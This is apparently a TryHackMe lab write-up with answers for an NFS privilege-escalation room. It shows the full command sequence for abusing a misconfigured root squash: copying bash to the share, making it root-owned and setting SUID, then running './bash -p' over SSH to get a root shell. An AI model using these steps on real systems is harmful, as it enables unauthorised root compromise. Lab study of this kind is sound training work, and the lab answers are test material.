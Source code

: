 - NFS Access ->
  - Gain Low Privilege Shell ->
    - Upload Bash Executable to the NFS share ->
      - Set SUID Permissions Through NFS Due To Misconfigured Root Squash ->
        - Login through SSH ->
          - Execute SUID Bit Bash Executable ->
            - ROOT ACCESS

Lets do this!

First, change directory to the mount point on your machine, where the NFS share should still be mounted, and then into the user's home directory.

```
bibo318@parrot:~/CTFs/tryhackme/Network Services 2$ cp bash /tmp/mount/cappucino/
```

`No answer needed`

Download the bash executable to your Downloads directory. Then use "cp ~/Downloads/bash ." to copy the bash executable to the NFS share. The copied bash shell must be owned by a root user, you can set this using "sudo chown root bash"

```
bibo318@parrot:/tmp/mount/cappucino$ sudo chown root bash
```

`No answer needed`

Now, we're going to add the SUID bit permission to the bash executable we just copied to the share using "sudo chmod +[permission] bash". What letter do we use to set the SUID bit set using chmod?

```
bibo318@parrot:/tmp/mount/cappucino$ sudo chmod +s bash
```

`s`

Let's do a sanity check, let's check the permissions of the "bash" executable using "ls -la bash". What does the permission set look like? Make sure that it ends with -sr-x.

```
bibo318@parrot:/tmp/mount/cappucino$ ls -la bash
-rwsr-sr-x 1 root kali 1113504 Nov 13 16:28 bash
```

`-rwsr-sr-x`

Now, SSH into the machine as the user. List the directory to make sure the bash executable is there. Now, the moment of truth. Lets run it with "./bash -p". The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions.

```
cappucino@polonfs:~$ ./bash -p
bash-4.4# whoami
root
bash-4.4#
```

`No answer needed`
